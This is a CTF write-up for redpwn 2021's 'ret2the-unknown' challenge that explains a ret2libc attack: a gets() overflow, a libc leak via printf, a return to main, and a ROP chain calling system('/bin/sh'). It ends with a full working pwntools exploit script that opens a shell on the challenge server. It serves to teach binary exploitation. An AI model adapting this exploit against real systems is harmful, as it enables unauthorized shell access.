


# redpwn 2021

*This writeup is also readable on my [personal website](https://shawnd.xyz/blog/2021-07-15/Executing-a-Textbook-ret2libc-Attack-to-Pop-a-Shell) and [team website](https://irissec.xyz/articles/categories/pwn/2021-07-18/Executing-a-Textbook-ret2libc-Attack-to-Pop-a-Shell).*

It's been a while since I've written a CTF writeup! I've been very busy with school and work for the past year or so, and so my writeup authoring skills may be a bit rusty.

From 9 July to 12 July, I had the pleasure of competing at redpwn 2021 with my team, IrisSec. This was a great event and I learned a lot and had a great time. Our squad competed in the college division and ranked first.

This writeup will be covering the challenge **pwn/ret2the-unknown** by pepsipu. This is a textbook ret2libc challenge.

All files can be found in the [redpwn directory](./files/2021-redpwn/).

## pwn/ret2the-unknown

*Challenge written by pepsipu.*

> hey, my company sponsored map doesn't show any location named "libc"! \
> `nc mc.ax 31568`

Files: `ret2the-unknown.c`, `ld-2.28.so`, `ret2the-unknown`, `libc-2.28.so`

This is a textbook ret2libc challenge without much else going on, and thus a great opportunity for me to explain ret2libc attacks!

As with any binary exploitation (pwn) challenge, let's first start by interacting with the program and looking for vulnerabilities. In order to make the `ret2the-unknown` binary use the given `ld-2.28.so` and `libc-2.28.so`, we can use `patchelf` as well as setting the `LD_PRELOAD` before executing the binary. We'll also of course remember to make `ret2the-unknown` executable using `chmod` so that we can run it. Let's check the security of the binary while we're at it as well using pwntools. 

```
$ chmod +x ./ret2the-unknown
$ pwn checksec ./ret2the-unknown
$ patchelf --set-interpreter ./ld-2.28.so ./ret2the-unknown
$ LD_PRELOAD=./libc-2.28.so ./ret2the-unknown
```



Alright, cool. The program takes some input from us and then spits out an address. There's partial RELRO, no stack canary, and no PIE, although there is NX. Partial/no RELRO is usually useful for PLT/GOT attacks, no stack canary is usually useful for overflow attacks, and no PIE is usually useful in general for all sorts of attacks.

The source code of the binary is also given in `ret2the-unknown.c`:

```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  char your_reassuring_and_comforting_we_will_arrive_safely_in_libc[32];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("that board meeting was a *smashing* success! rob loved the challenge!");
  puts("in fact, he loved it so much he sponsored me a business trip to this place called 'libc'...");
  puts("where is this place? can you help me get there safely?");

  // please i cant afford the medical bills if we crash and segfault
  gets(your_reassuring_and_comforting_we_will_arrive_safely_in_libc);

  puts("phew, good to know. shoot! i forgot!");
  printf("rob said i'd need this to get there: %llx\n", printf);
  puts("good luck!");
}
```

The address that was given was the address of `printf`, a libc function. Knowing the address of **anything** in libc is useful because we can calculate the base address of the loaded libc by taking the difference between the address present in the static libc file and the address present in the loaded libc. Once we know the base address of the libc, then we can calculate the address of all other libc items using their offsets.

Already, we can see that this program is vulnerable to a ret2libc attack. Being able to calculate the base address of the libc means that we know the address of `system`. All we need to do is search through the libc for a `pop rdi; ret;` gadget and `"/bin/sh"` string and we can execute `system("/bin/sh");`. Overflow the buffer, overwrite the return address with the address of our `pop rdi; ret;` gadget, `"/bin/sh"` string, and `system` address in libc and we have a shell!

However, there's one problem: we're given the `printf` address *after* we write to a buffer. This `printf` address does not stay the same, as we can see:


This interrupts our original attack plan. Overflowing the buffer and overwriting the return address with our exploit, which includes the `system` address from libc, requires knowing the base address of the libc to begin with in order to be calculated. This is where the binary having PIE disabled will help us. Because PIE is disabled, the program is loaded into the same memory address each time it is run. Thus, the address of `main` is predictable.

```
$ objdump -d -M intel ./ret2the-unknown | grep "<main>:"
```



Great! `main` has the address `0x401186`. If we were to overflow the buffer and overwrite the return address with `main`'s address, then the program will repeat itself. With this slight adjustment, our attack plan is complete:

0. Get the offset of a `pop rdi; ret;` gadget in the given static libc file.
1. Use a buffer overflow to overwrite the return address of `main` with the address of `main`. This will cause the `main` function to repeat itself once more.
2. The `main` function will give us the address of the loaded `printf` function from libc.
3. `main` will repeat itself thanks to our overflow from part 1.
4. Calculate the libc base address using the address of the loaded `printf` function from part 2. This is equal to the given loaded `printf` address minus the `printf` offset from the static libc file.
5. Use the libc base address to calculate the real address of the `pop rdi; ret;` gadget using its offset from part 0.
6. Use the calculated libc base address to calculate the real address of a `"/bin/sh"` string in the libc.
7. Use the libc base address to calculate the real address of the `system` function in libc.
8. Use a buffer overflow to overwrite the return address of `main` with `<addr_gadget><addr_binsh><addr_system>`.
9. Get a shell!

Starting off with part 0, you can easily find gadgets using a tool like `ropper`.


Now we know that there's a `pop rdi; ret;` at `0x023a5f`. Note that this was found in the given static libc file, meaning that it hasn't been loaded yet. This is why it's so important to calculate the base address of the **loaded** libc in the program. `0x023a5f` here is essentially the offset of the gadget, so to find the address of the game gadget in the running program, we just add it to the loaded libc's base address.

The entire exploit can be easily scripted in Python with pwntools.

Part 1 would look something like the following. Note that we need 32 bytes *plus* an additional 8 bytes to get to the return address. You can find out how many bytes you need to write to a buffer to get to the return address by overflowing with a pattern and seeing what address it will try to return to in a debugger like `gdb`:

```python
exploit  = b"A" * (32+8)
exploit += p64(0x401186)
```

Remember that `0x401186` was just the address of `main` that we discovered earlier. This code creates an exploit consisting of 32+8 bytes of padding plus the address of `main`, effectively making `main` return to `main` and therefore running itself one more time.

Part 2 can be read by parsing the data returned by the program. Based on the input, I got something like the following to extract the given hexadecimal address from the program:

```python
printf_addr = p.recvuntil("luck!").decode("utf-8").split("\n")[0]
printf_addr = int(printf_addr, 16)
```

The program will automatically repeat itself as planned in part 3. We can now calculate the libc base address using `printf_addr` from part 2. In fact, we can actually declare the base address in pwntools itself so that all future searches and lookups will use this base address:

```python
libc = ELF("./libc-2.28.so")
libc.address = printf_addr - libc.symbols["printf"]
```

What this code will do is it will load the libc file, take the `printf_addr` the program gave us, and subtract the offset of `prinf` from the libc file from it, therefore giving us the base address of the loaded libc. Part 4 complete!

Therefore, the `pop rdi; ret;` gadget is located at this base address *plus* `0x023a5f`. We can search through the libc for `"/bin/sh"` and `system` with pwntools now that we've declared its base address. We of course need to remember our padding as well to slide over to the return address. Parts 5-8, done:

```python
exploit  = b"B" * (32+8)
exploit += p64(libc.address + POP_RDI_RET)
exploit += p64(next(libc.search(b"/bin/sh")))
exploit += p64(libc.symbols["system"])
```

Our final exploit code will look something like the following:

```python
#!/usr/bin/env python3

from pwn import *

# Gadget offsets.
POP_RDI_RET = 0x00023a5f # pop rdi; ret;

# Remote switch.
REMOTE = True

def main():

    # Load the files.
    vuln = ELF("./ret2the-unknown")
    libc = ELF("./libc-2.28.so")

    # Connect to the target.
    if REMOTE:
        p = remote("mc.ax", 31568)
    else:
        p = process("./ret2the-unknown", env={"LD_PRELOAD": "./libc-2.28.so"})

    # Overwrite ret. addr. with main's addr.
    exploit  = b"A" * (32+8)                               # Padding to get to ret.
    exploit += p64(0x401186)                               # main() address overwrites ret.
    log.info("Overwriting return address with main.")
    p.recvuntil("safely?")
    p.sendline(exploit)

    # main should repeat and give us printf addr.
    p.recvuntil("there: ")
    printf_addr = p.recvuntil("luck!").decode("utf-8").split("\n")[0]

    # Calculate the offsets and addresses.
    printf_addr   = int(printf_addr, 16)                   # Load the printf address.
    libc.address  = printf_addr - libc.symbols["printf"]   # Calculate and set the libc address.

    # Create the exploit that overwrites ret. addr. with shellcode.
    exploit  = b"B" * (32+8)                               # Padding to get to ret.
    exploit += p64(libc.address + POP_RDI_RET)             # Gadget: pop rdi; ret;
    exploit += p64(next(libc.search(b"/bin/sh")))          # Pass /bin/sh.
    exploit += p64(libc.symbols["system"])                 # Call system().

    # Send the exploit.
    log.info("Delivering exploit.")
    p.recvuntil("safely?")
    p.sendline(exploit)

    # Interact with the shell.
    log.info("Spawning shell.")
    p.recvuntil("luck!")
    p.interactive()

if __name__ == "__main__":
    main()
```

Launch the exploit and sure enough, we have a shell:


It's a textbook ret2libc attack.
